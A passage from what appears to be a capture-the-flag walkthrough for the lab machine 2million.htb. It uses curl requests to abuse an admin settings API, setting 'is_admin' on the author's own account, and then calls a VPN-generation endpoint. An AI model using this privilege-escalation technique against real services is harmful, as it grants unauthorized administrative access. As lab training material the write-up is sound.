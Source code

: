 ```bash
```

We can find 10 functions of the API. Let's see if we can find any vulnerabilities.

## `API Vulnerabilities`

```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
{
    "message":  false
}
```

> We are not an admin ! Let's try to make our account an admin account.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" | jq
{
    "status": "danger",
    "message: Missing parameter: email"
}

It seems that the API is vulnerable, let's try to get admin access.

```bash
curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"email":"email@domain.com", "is_admin":'1'}' | jq
{
    "id":24,
    "username":"big_couilles",
    "is_admin":1
}
```

> We are now an admin ! Let's see what we can do next.

## `Admin Access`

```bash
curl http://2million.htb/api/v1/admin/auth --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6"
{
    "message":  true
}
```

We can now tickle that /api/v1/admin/vpn/generate endpoint.

```bash
curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=nufb0km8892s1t9kraqhqiecj6" --header "Content-Type: application/json" --data '{"username":"test"}' | jq
```

> It indeed generates a VPN configuration file for the user `test`. 
